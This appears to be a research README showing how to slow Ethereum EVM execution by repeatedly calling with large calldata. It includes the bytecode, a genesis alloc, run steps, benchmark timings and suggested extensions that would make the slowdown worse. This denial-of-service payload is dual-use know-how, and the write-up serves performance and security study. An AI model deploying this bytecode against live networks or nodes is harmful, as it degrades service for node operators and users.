


# Slow Execution due to Large Calldata

The goal is to make EVM execution slow by forcing a large amount of memory to be allocated.

## Approach 

A single contract is used:

Contract `a`:
```
while true:
   call 0xdeadbeef with all available gas and 1305700 bytes of calldata
```

This is the resulting genesis alloc:
```json
{
 "0x000000000000000000000000000000000000ff0a": {
  "code": "0x58805b816213ec648163deadbeef5afa600256",
  "balance": "0xffffffff"
 }
}
```

## How to run
- `docker run --rm  -ti -v $PWD:/shared golang`
- `cd /shared/examples/calldata/`
- `go get`
- `go build`
- `./calldata`

## Results

For Intel(R) Core(TM) i7-7700HQ CPU @ 2.80GHz: (Developer Laptop)
```
Time elapsed: 2.059193582s
Time elapsed: 1.953459532s
```

For Intel Xeon Processor (Skylake, IBRS): (Cloud Node)
```
Time elapsed: 7.450188226s
Time elapsed: 7.377772728s
```

## CPU Profile

Here is a CPU profile of the execution for Intel(R) Core(TM) i7-7700HQ CPU @ 2.80GHz:



Here is a CPU profile of the execution for Intel Xeon Processor (Skylake, IBRS):




## Possible extensions to increase execution time

- Unroll the loop to save ~1% gas
- Call a maximum-size contract starting with a `STOP` to force a large contract to be loaded
- Call different contracts (see previously described attack)

## Conclusion

It is possible to create relatively slow transactions with large amounts of calldata.


